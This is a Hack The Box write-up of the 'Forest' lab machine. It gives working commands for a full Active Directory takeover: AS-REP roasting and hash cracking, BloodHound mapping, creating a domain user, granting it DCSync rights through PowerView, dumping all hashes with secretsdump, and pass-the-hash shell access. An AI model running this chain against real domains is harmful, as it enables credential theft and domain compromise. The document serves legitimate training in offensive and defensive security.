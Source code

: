 ```yaml
---
layout: htb-ctf
title: "CTF Writeup: Forest"
date: 2025-01-22 HH:MM:SS +0000
categories: [CTF, Writeup, [hackthebox]]
tags: [[AD], [DcSync], [htb]]
---
```


# Hack The Box - Forest

## Description
Forest is an easy machine that focusses on Active Directory and how this can be misused when certain conditions are met.

## Information Gathering

### Step 1: Enumeration
I start with running good olde nmap to enumerate the target machine.

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/forest_TCP 10.129.84.192
```
![alt text](/assets/screenshots/forest/image.png)
Seems that nothing special is running on the machine other then what we could expect from a AD machine.

Let's start with some user enumeration. We can use enum4linux for this.
```bash
# enum4linux -a -U 10.129.84.192
```
![alt text](/assets/screenshots/forest/image-1.png)<br>
I got some usernames!

Now that we found some usernames we can try and use AS-REP roasting. With kerberoasting we need to use credentials to authenticate with. But with AS-REP roasting we can get the hashes for accounts that have the 'do not require kerberos preauth' set to true.

## Exploitation

### Step 2: AS-REP Roasting

To make the AS-REP Roasting a bit faster I made a for loop to walk through a list of usernames. This is much easier then having to run the command multiple times for each username.

```bash
# for user in $(cat usernames.txt); do /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.129.187.133 htb/${user} | grep -v Impacket;
```
![alt text](/assets/screenshots/forest/image-2.png)<br>
I got a hit on the hash for the user svc-alfresco!

Let's use hashcat to try and crack the hash.
```bash
# sudo hashcat -m 18200 svc_alfresco.hash /usr/share/wordlists/rockyou.txt.gz --force
```
![alt text](/assets/screenshots/forest/image-3.png)<br>
And got a hit on the password! This means I can now authenticate to the target machine using the alfresco credentials.

Using netexec to test if the credentials are working.
```bash
# netexec smb 10.129.187.133 -u "svc-alfresco" -p "[password]" --shares
```
![alt text](/assets/screenshots/forest/image-4.png)<br>
They are working and have SMB rights. I could also use netexec to run the scripts needed for bloodhound enumeration. Doing this I can get a detailed picture of the AD network and the relations between users, groups and more.
```bash
# netexec ldap 10.129.187.133 -u "svc-alfresco" -p "[password]" --bloodhound --collection All --dns-server 10.129.187.133
```
![alt text](/assets/screenshots/forest/image-5.png)<br>

It worked, I can now import this into bloodhound and see the relation in this AD envirionment.
![alt text](/assets/screenshots/forest/image-7.png)<br>
It seems that SVC-alfresco is member of the Account Operators group by a couple of group jumps. This means he can create new users to the domain.

Looking a bit deeper into the Account Operators group I can see that they have GenericAll rights on the Exchange Windows Permissions group.
![alt text](/assets/screenshots/forest/image-8.png)<br>
The Exchange Windows Permissions groups has WriteDacl (Discretionary Access Control List) rights on the HTB.Local environment. This means that a member of the Exchange Windows Permissions group can give any user DcSync privileges.

Before I look into this attack scenario further let's first try and login using the credentials and get the user.txt file. evil-winrm can be used to login to the target machine.
```bash
# evil-winrm -i 10.129.187.133 -u svc-alfresco -p [password]
```
![alt text](/assets/screenshots/forest/image-9.png)<br>

Now I should be able to get that user.txt file.
![alt text](/assets/screenshots/forest/image-19.png)<br>

# Privilege Escalation
Now to find a way to elevate privileges.

From the bloodhound insight, I know that our user svc-alfresco is a member of the privileged IT accounts. This means he can create a new domain account and because the Privileged IT account it part of the Account operators and the account operator have generic all over Exchange windows permissions we can add the user to that group!
And to make a home-run that group has WriteDacl on the htb.domain which we can use to get a DcSync and get the hashes!

First step is to create a new user on the domain. Which we can do because we are member of the Account Operators group.
```bash
# net user tech password123! /add /domain
```
![alt text](/assets/screenshots/forest/image-10.png)<br>

Now that I created a new user "tech" I can add him to the Exchange Windows Permissions group.
```bash
# net group "Exchange Windows Permissions" /add tech
```
![<alt text>](/assets/screenshots/forest/image-11.png)<br>
Noice! Our tech user is now member of the Exchange Windows Permissions group.

Now I need to give tech the rights to DcSync on the domain.
In order to do this I need Powerview.ps1!

I can simply use evil-winrm to upload powerview.ps1
![alt text](/assets/screenshots/forest/image-12.png)<br>

Now start Powerview.ps1.
```bash
# . ./Powerview.ps1
```
![alt text](/assets/screenshots/forest/image-13.png)<br>

Now I will run the following commands.
```bash
# $SecPassword = ConvertTo-SecureString 'password123!' -AsPlainText -Force
# $Cred = New-Object System.Management.Automation.PSCredential('htb\tech', $SecPassword)
# Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tech -Rights DCSync
```
![alt text](/assets/screenshots/forest/image-14.png)<br>

Our user tech should now be able to use DcSync and able to get all the users hashes!
Let's use impacket-secretsdump to execute our DcSync attack.

```bash
# impacket-secretsdump htb.local/tech:'password123!'@10.129.187.133
```
![alt text](/assets/screenshots/forest/image-15.png)<br>
I can see the administrator and his hash!

Now use a tool like psexec to get a shell on the system.
```bash
# impacket-psexec administrator@10.129.187.133 -hashes hash:hash
```
![alt text](/assets/screenshots/forest/image-16.png)<br>
Now I can get that root.txt!

![alt text](/assets/screenshots/forest/image-17.png)<br>
Noice!

![alt text](/assets/screenshots/forest/image-18.png)<br>

## Conclusion
To summarize this machine. It was a AD machine that had some misconfigurations like not enforcing kerberos authentication. Also the privileges for the users are not restricing enough and led to a total takeover in this scenario.

## Lessons Learned
- check the accounts are kerberoastable or even asking for kerberos auth.
- check if each user needs certain privileges it has before giving it.